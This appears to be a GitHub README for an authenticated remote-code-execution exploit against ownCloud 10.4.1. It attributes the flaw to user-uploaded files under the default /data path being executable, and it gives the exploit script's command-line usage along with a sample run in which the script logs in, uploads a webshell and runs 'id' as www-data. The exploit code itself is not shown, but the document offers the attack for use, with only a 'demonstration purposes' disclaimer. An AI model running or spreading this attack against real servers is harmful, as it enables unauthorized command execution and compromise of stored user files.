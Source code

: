 ### ownCloud-Authenticated-RCE-By-Default-Path.
Exploit to remote code execution in ownCloud v.10.4.1 based in bad permissions to /data where users' files are stored by default. 

The error is based in the access to /data, where there are folders for each user, for example, you can enter example.com/data/user and there you can find the trash bin, the files, etc of this user. The several risk is in the access of your own files because you can execute code of your uploaded files.

# For demonstration purposes only! Use it at your own risk.

The use of this exploit is:

```
./exploit.py -t http://example.com/owncloud -u user -p password -c id
```

Example:
```
daniel@debian:~/Owncloud$ ./exploit.py -t http://192.168.1.90/owncloud -u daniel -p daniel -c id
[?] Logging in...
[+] Logged in. Checking if a webshell is uploaded...
[+] Webshell already uploaded
[?] Executing the code...

uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Command successfully executed

```
